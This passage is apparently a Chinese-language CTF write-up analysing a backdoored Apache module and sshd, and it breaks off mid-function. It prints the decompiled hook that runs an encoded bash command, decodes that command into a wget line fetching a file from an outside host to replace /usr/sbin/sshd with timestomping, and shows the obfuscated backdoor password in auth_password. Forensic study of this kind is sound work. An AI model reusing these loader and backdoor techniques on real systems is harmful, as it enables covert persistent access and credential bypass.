 `mod_reader.so`是最后更新的文件

```cpp
int __fastcall hook_post_config(apr_pool_t_0 *pconf, apr_pool_t_0 *plog, apr_pool_t_0 *ptemp, server_rec_0 *s)
{
  char *args[4]; // [rsp+0h] [rbp-38h] BYREF
  unsigned __int64 v6; // [rsp+28h] [rbp-10h]

  v6 = __readfsqword(0x28u);
  pid = fork();
  if ( !pid )
  {
    b64_decode(
      "d2dldCBzaGFyZWZpbGVzLnh5ei9pbWFnZS5qcGVnIC1PIC91c3Ivc2Jpbi9zc2hkOyB0b3VjaCAtZCBgZGF0ZSArJVktJW0tJWQgLXIgL3Vzci9zYm"
      "luL2EyZW5tb2RgIC91c3Ivc2Jpbi9zc2hk",
      0LL);
    args[2] = 0LL;
    args[3] = 0LL;
    args[0] = "/bin/bash";
    args[1] = "-c";
    execve("/bin/bash", args, 0LL);
  }
  return 0;
}
```

`wget sharefiles.xyz/image.jpeg -O /usr/sbin/sshd; touch -d `date +%Y-%m-%d -r /usr/sbin/a2enmod` /usr/sbin/sshd`

---

后面对于`/usr/sbin/sshd`的逆向分析是看wp了,对`auth_password`进行分析

```cpp
int __fastcall auth_password(ssh *ssh, const char *password)
{
  char v2; // dl
  Authctxt_0 *v3; // rbx
  passwd *v4; // r13
  int v5; // er12
  char *v6; // rax
  int v7; // er8
  int result; // eax
  size_t v9; // r8
  int v10; // er13
  char backdoor[31]; // [rsp+0h] [rbp-58h] BYREF
  char v12; // [rsp+1Fh] [rbp-39h] BYREF
  unsigned __int64 v13; // [rsp+28h] [rbp-30h]

  v2 = 0xD6;
  v3 = (Authctxt_0 *)ssh->authctxt;
  v13 = __readfsqword(0x28u);
  *(_WORD *)&backdoor[28] = 0xA9F4;
  v4 = v3->pw;
  v5 = v3->valid;
  *(_DWORD *)&backdoor[24] = 0xBCF0B5E3;
  *(_QWORD *)&backdoor[16] = 0xB2D6F4A0FDA0B3D6LL;
  v6 = backdoor;
  backdoor[30] = 0xA5;
  *(__m128i *)backdoor = _mm_load_si128((const __m128i *)&xmmword_7DB30);//xmmword_7DB30   xmmword 0FDB3D6E7F7BBFDC8A4B3A3F3F0E7ABD6h
  while ( 1 )
  {
    *v6++ = v2 ^ 0x96;
```